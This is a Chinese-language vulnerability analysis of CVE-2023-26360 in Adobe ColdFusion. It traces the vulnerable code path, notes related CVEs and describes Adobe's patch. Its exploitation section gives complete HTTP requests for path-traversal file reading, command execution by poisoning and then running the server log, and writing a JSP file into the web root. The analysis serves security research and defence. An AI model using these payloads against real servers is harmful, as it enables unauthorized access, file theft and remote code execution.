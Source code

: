 

# Adobe ColdFusion 未授权 RCE 漏洞分析 CVE-2023-26360 - 先知社区

Adobe ColdFusion 未授权 RCE 漏洞分析 CVE-2023-26360

- - -

[![](assets/1706959641-ef99858c30e74d13ca9e6494970811fc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125001505-bc4510c4-bad3-1.png)

漏洞利用条件：无  
漏洞影响版本：Adobe ColdFusion < 2018.0.16、Adobe ColdFusion < 2021.0.6  
本文分析环境：Adobe Fusion 2018.0.15 版本

## 前言

Adobe ColdFusion 是一种用于构建动态 Web 应用程序的服务器端编程语言和开发平台。它由 Adobe Systems 开发和维护。ColdFusion 的主要目标是简化 Web 应用程序的开发过程，通过提供一个强大且易于使用的平台，使开发人员能够快速构建功能丰富的 Web 应用。

## 漏洞分析

网上的漏洞利用入口为 **/cf\_scripts/scripts/ajax/ckeditor/plugins/filemanager/filemanager.cfc** ，我们就先来分析 **\*.cfc** 的路由处理逻辑。从 **web.xml** 配置文件里面可以看到，该路由的处理类为 **coldfusion.bootstrap.BootstrapServlet** 。而这个类只是一个入口类，实际处理类为 **coldfusion.xml.rpc.CFCServlet** 。

[![](assets/1706959641-c15badd53588e2d707fbc48e1aca163d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125002945-c8fc6518-bad5-1.png)

在 **coldfusion.xml.rpc.CFCServlet** 这个类里，使用 **IPFilterUtils.checkAdminAccess()** 函数来判断当前路由用户是否有权限访问。然而这个函数使用了 **req.getRequestURI()** 和 **startsWith()** 来判断权限，明显存在绕过。例如：原先访问 **/CFIDE/adminapi** 会被限制，现在改成 **/CFIDE//adminapi** 即可绕过程序检测。这处绕过，也就是后面的 **CVE-2023-29298** 漏洞。

[![](assets/1706959641-b94909bf92ce16a75db9054aa6b71c82.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125003008-d6740a2a-bad5-1.png)

本次我们分析的是 **CVE-2023-26360** ，继续往下跟代码逻辑。**Adobe ColdFusion** 程序根据不同的请求类型（**CFC**或者**Axis**），创建对应的 **filterchain** 。在 **CFC** 对应的的 **filterchain** 中，我们需要关注 **GlobalsFilter、ComponentFilter** 这两个 **filter** 。

[![](assets/1706959641-1a09b302cfd707ac8547324061eddd56.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125003021-de30474c-bad5-1.png)

第一个过滤器 **GlobalsFilter** ，主要用来初始化请求相关信息，并将这些信息封装在不同的 **scope** 里。后续 **POC** 中的部分参数，就是从这些 **scope** 中获取，所以这里稍微关注下就行。

[![](assets/1706959641-11482cca90509aadf7fabd5b22790477.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125003120-01390706-bad6-1.png)

第二个过滤器 **ComponentFilter** ，就是本次漏洞要关注的核心类了。这里，我们需要重点关注以下 3 个部分。

-   第 1 个部分：我们需要将 **urlScope.get("\_cfclient")** 设置为 **true** ，这样才能触发到后续的漏洞点。而 **urlScope** 中的数据来自 **GET** 请求数据，所以我们正常设置 **\_cfclient=true** 就行。
-   第 2 个部分：这里调用了 **FilterUtils.GetArgumentCollection(context)** ，该函数主要是将用户请求数据重新封装起来。在函数里面，我们关注到调用了 **WDDXDeserialize()** ，存在一个反序列化操作。这处也就是后续的 **CVE-2023-29300** 漏洞，本文暂不讨论。
-   第 3 个部分：这处会把第 2 步封装好的数据，传给 **JSONUtils.deserializeJSON()** 函数处理。这个函数调用栈比较长，我们下面会逐步分析。

[![](assets/1706959641-e5431d29ab79bb4a0e8c7c7958cc0112.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125003131-07e3c5b4-bad6-1.png)

在 **JSONUtils.deserializeJSON()** 函数中，程序会从用户请求数据中取 **classname** 数据，然后将其传给 **TemplateProxyFactory.resolveFile()** 函数。

[![](assets/1706959641-7faf7ef9277b90bceef50953d4a30004.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125003141-0e0005d4-bad6-1.png)

**TemplateProxyFactory.resolveFile()** 函数，会根据传进来的文件路径，去加载对应的类。如果我们指定的路径文件不是标准的 **Java** 字节码文件，程序会自动把他编译成字节码文件，最终缓存至 **/app/WEB-INF/cfclasses/** 目录下。新编译的类继承自 **coldfusion.runtime.CFPage** ，并且程序最终会调用新编译类的 **runPage()** 方法。我们可以来看一下，当模板文件名为 **../../../../../../../../../../../../../etc/passwd** 时，程序编译后的字节码文件如下：

[![](assets/1706959641-05eba783953199e343024581650d4c56.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125003226-28b759ea-bad6-1.png)

那么通过这一特性，我们就能达到任意文件读取的效果。在审计代码时，我们会发现这个系统上自带一些 **cfc** 文件。这些文件里面出现了很多特殊标签，如 **cfinclude、cffunction、cfargument、cfset、cfif** 等。通过查询资料，我们发现这些标签都属于 **CFML**（ColdFusion Markup Language）语言的一部分。那么我们就可以通过翻阅[官方手册](https://cflib.org/udf/FileWrite)，找一些危险函数来达到 **RCE** 的目的。  
例如：写文件函数

[![](assets/1706959641-2ff1879d3e29d0ade8ebf25538c0bbf6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125003238-2fd3a67a-bad6-1.png)

例如：命令执行函数

[![](assets/1706959641-f44c78d5e0cad50e27b746307b919d66.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125003250-36daf450-bad6-1.png)

最终的利用思路：将 **CFML** 语句通过报错写入日志文件中，然后再通过 **CVE-2023-26360** 漏洞编译、执行日志文件实现 **RCE** 。

## 漏洞利用

### 任意文件读取

```bash
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/filemanager.cfc?method=foo&_cfclient=true HTTP/1.1
Host: 127.0.0.1:8500
Content-Length: 90
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Connection: close

_variables={"_metadata":{"classname":"../../../../../../../../../../../../../etc/passwd"}}
```

[![](assets/1706959641-3f8e451ee40473b642c80105fa123eb9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125003325-4c24d3d0-bad6-1.png)

### 命令执行

```bash
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/filemanager.cfc?method=foo&_cfclient=true HTTP/1.1
Host: 127.0.0.1:8500
Content-Length: 67
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Connection: close

_variables=<cfexecute name='id' outputFile='/tmp/aaa' ></cfexecute>
```

```bash
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/filemanager.cfc?method=foo&_cfclient=true HTTP/1.1
Host: 127.0.0.1:8500
Content-Length: 178
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Connection: close

_variables={"_metadata":{"classname":"../../../../../../../../../../../../../../../../../../../../../../../../../opt/coldfusion/cfusion/logs/coldfusion-out.log","_variables":[]}}
```

[![](assets/1706959641-9798dbf7e37a55c0113cd41cd90c702b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125003335-51e95796-bad6-1.png)

### 文件写入

```bash
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/filemanager.cfc?method=foo&_cfclient=true HTTP/1.1
Host: 127.0.0.1:8500
Content-Length: 108
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Connection: close

_variables=<cfscript>fileWrite('/opt/coldfusion/cfusion/wwwroot/cf_scripts/demo.jsp','<%=233%>');</cfscript>
```

```bash
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/filemanager.cfc?method=foo&_cfclient=true HTTP/1.1
Host: 127.0.0.1:8500
Content-Length: 178
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Connection: close

_variables={"_metadata":{"classname":"../../../../../../../../../../../../../../../../../../../../../../../../../opt/coldfusion/cfusion/logs/coldfusion-out.log","_variables":[]}}
```

[![](assets/1706959641-a4c47ee8d4e91665740bd27e617ffed0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125003344-575b2754-bad6-1.png)

## 补丁分析

官方修复方式：所有的 **cfclient** 请求，文件后缀必须是 **.cfc** 结尾，相当于只能请求服务器上已有的 **cfc** 文件了。

[![](assets/1706959641-96a34915992b703c0e1103f7a3a029d6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125003354-5d4ed5b6-bad6-1.png)

## 参考文章

[https://blog.securelayer7.net/unauthorized-rce-in-adobe-coldfusion/](https://blog.securelayer7.net/unauthorized-rce-in-adobe-coldfusion/)  
[https://attackerkb.com/topics/F36ClHTTIQ/cve-2023-26360/rapid7-analysis](https://attackerkb.com/topics/F36ClHTTIQ/cve-2023-26360/rapid7-analysis)  
[https://shfsec.com/cve-analysis-adobe-coldfusion-from-lfi-to-rce-cve-2023-26359-cve-2023-26360](https://shfsec.com/cve-analysis-adobe-coldfusion-from-lfi-to-rce-cve-2023-26359-cve-2023-26360)
